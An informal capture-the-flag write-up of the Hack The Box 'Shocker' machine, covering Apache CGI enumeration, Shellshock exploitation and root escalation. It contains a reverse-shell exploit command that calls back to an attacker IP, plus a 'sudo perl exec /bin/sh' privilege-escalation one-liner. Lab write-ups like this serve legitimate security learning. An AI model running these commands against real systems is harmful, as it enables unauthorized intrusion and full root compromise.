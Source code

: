 ### Write up for Shocker Machine on HTB
Enumerating shocker, the biggest giveaway was the machine name and an obvious emoji of a shocked bug 
as i had exploited severall shellshock vulnerability, immediately realized i was dealling with a shellshock variant which is the apache mod_cgi


which requires a cgi script to be present in the webserver directory for it to be exploitable, did several directory and file listing search using several tools FFUF, Dirb, Gobuster, Dirbuster Dirsearch, looking for a .cgi script so i could write a malicious environmental variable which would be ran by bash , all to know avail 


After a futher research a nudge from the forums  , i realised .cgi is not only the exploitable file for shellshock, did few more searches with tweaked extensions of .bash,.sh,.cgi

found user.sh in the cgi-bin directory , checked searchsploit to find a python script writen to exploit shellshock which gave me a shelly user access on the machine 

python2 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.7 lport=32327 pages=/cgi-bin/user.sh





checkiing sudo -l , I'm able to run the perl language as root , immediately checking GTFO bin's , we have a sudo privesc 


    sudo perl -e 'exec "/bin/sh";'

so running " sudo -u root perl -e 'exec "/bin/sh";' "   We got root in less than 1 minutes 


![image](https://user-images.githubusercontent.com/12541755/113401483-07676d80-9369-11eb-99ac-80aaded21a20.png)

Shocker Pwned 
### Yipee 

Time to User : 9 Hours
Time to Root : 1 Minutes 
